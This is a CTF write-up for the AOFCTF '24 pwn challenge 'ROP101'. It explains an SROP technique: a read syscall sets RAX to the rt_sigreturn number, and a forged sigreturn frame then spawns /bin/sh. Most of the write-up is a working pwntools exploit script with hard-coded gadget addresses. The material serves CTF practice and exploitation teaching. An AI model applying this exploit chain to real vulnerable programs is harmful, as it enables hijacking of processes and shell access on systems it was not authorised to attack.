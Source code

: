 ```yaml
---
title: AOFCTF '24 - Pwn - ROP101
date: '2024-04-29'
tags: ['pwn', 'aofctf', 'srop', 'read']
draft: false
summary: Utilizing SROP to write to a buffer and then using read syscall to write 0xF into rax to call rt_sigreturn
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-10.png)

## Solution

This challenge was a simple SROP challenge. However, since we didn't have a gadget that could directly control `RAX`, we would make use of `READ` to read in `0xF` bytes so that RAX would contain `rt_sigreturn` syscall opcode, and then we would simply create the sigreturn frame, and jump to it.

The exploit for this is as follows, the only thing I added was a simple 2 second delay; that was to ensure that the bytes are sent properly.

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

exe = "./rop101"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# if args.GDB: gdb.attach(io, "b *main+40")
# io = gdb.debug(exe, gdbscript="b *main+40")

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = elf.bss(0)
frame.rsi = 0
frame.rdx = 0
frame.rip = 0x401141

payload = flat(
    cyclic(24, n=8),
    0x0000000000401144, # pop rsi; ret
    elf.bss(0),
    0x000000000040113f, # xor eax, eax; syscall,
    0x0000000000401144, # pop rsi; ret
    elf.bss(0)+0x10,
    0x000000000040113f, # xor eax, eax; syscall
    0x0000000000401141, # syscall
    frame
)
io.send(payload)
io.sendline(flat(b"/bin/sh\x00"))
time.sleep(2)
io.send(b"A"*0xF)
io.interactive()
```

